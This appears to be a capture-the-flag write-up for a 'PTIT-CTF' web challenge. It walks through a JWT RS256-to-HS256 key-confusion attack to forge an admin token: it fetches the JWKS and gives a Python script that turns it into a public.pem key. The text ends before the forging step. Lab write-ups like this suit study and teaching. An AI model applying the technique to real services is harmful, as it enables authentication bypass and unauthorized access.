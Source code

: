 So I have to be an admin to access `/admin`:

<img width="1640" height="903" alt="image 8" src="https://github.com/user-attachments/assets/55e36e2a-1966-4f11-8cef-36845f0856f0" />  

Use [jwt.io](http://jwt.io) to decode jwt token:

<img width="1317" height="823" alt="image 9" src="https://github.com/user-attachments/assets/56379899-4fae-4735-bb63-2d9eace85a31" />  

This challenge can be solved using RS256→HS256 (key-confusion), and what is that:

- RS256→HS256 “key-confusion” lets you forge a JWT by swapping `alg` to `HS256` and using the server’s **RSA public key as the HMAC secret**.

## Get JWKS:

Access `/.well-known/jwks.json` :

<img width="1760" height="137" alt="image 10" src="https://github.com/user-attachments/assets/4e2d1bce-4883-4944-88e0-71632f29aff2" />  

```bash
{"keys":[{"alg":"RS256","e":"AQAB","kid":"PTIT-CTF","kty":"RSA","n":"zf1c1FAyg0btbcnxfuQzTQMqpi7RaZ78KQYLT69DgM9lJ6AfkhqUpuLCwK4NL0emQgbj2CkVGvTQKyejhCqQE9RagMgFFl2o2kpJpEIfab08XB0tqJn-q770xUgUQPA1h9PlD2SnHmorVNwOKcKGSj862CryvS2b7Xf3BkKCt_75AlbUGGTS9RumrZIeQYfyVfTERuRtaus3Et2KWwRA_DCAg19k3YGcs2dKqzUZwL-OqogA5PobjrEzlmVuWpe5bIuzW1mP_lkdaEWwJxF2yAZBF_aQlAVYSLMAW3Z2stU3cwLtCb2M2sJOMmn6cG6cBEr3Yw2lgiiQNGne3WJSOw","use":"sig"}]}
```

Create 2 files - `jwks.json` and `token.txt` for later:

<img width="1143" height="309" alt="image 11" src="https://github.com/user-attachments/assets/4bd2430e-6351-4ea6-9c6a-5f054220b0c7" />  

## Extract public.pem from JWKS:

```bash
┌──(I3isk3t㉿165)-[~/usr-tools/jwt_tool]
└─$ python3 - <<'PY'
import json, base64
from cryptography.hazmat.primitives.asymmetric import rsa
from cryptography.hazmat.primitives import serialization

def b64u(x): x += '='*((4-len(x)%4)%4); return base64.urlsafe_b64decode(x)

j=json.load(open('jwks.json')); k=j['keys'][0]
n=int.from_bytes(b64u(k['n']),'big'); e=int.from_bytes(b64u(k['e']),'big')
pub=rsa.RSAPublicNumbers(e,n).public_key()
open('public.pem','wb').write(pub.public_bytes(
    serialization.Encoding.PEM, serialization.PublicFormat.SubjectPublicKeyInfo))
print("public.pem")
PY
public.pem
```

<img width="546" height="274" alt="image 12" src="https://github.com/user-attachments/assets/8000c1dd-d2ea-49a5-9903-7c4d3dae96d1" />  
